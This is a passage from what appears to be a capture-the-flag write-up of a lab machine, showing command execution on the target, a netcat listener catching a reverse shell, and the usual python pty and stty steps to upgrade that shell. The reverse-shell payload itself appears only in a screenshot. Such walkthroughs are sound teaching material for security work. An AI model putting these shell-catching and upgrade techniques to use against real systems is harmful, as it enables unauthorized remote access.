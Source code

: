 ![image*](/img/image-20210522154141823.png)

It runs `system("id")` and the result is at the top of the response.

### Shell

I'll replace `id` with a reverse shell, and run it again.

![](/img/image-20210522154302972.png)

The response just hangs, but at `nc`, I've got a shell:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.242] 55806
    bash: cannot set terminal process group (933): Inappropriate ioctl for device
    bash: no job control in this shell
    james@knife:/$ 



I'll upgrade with the normal trick:



    james@knife:/$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    james@knife:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443 
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    james@knife:/$ 
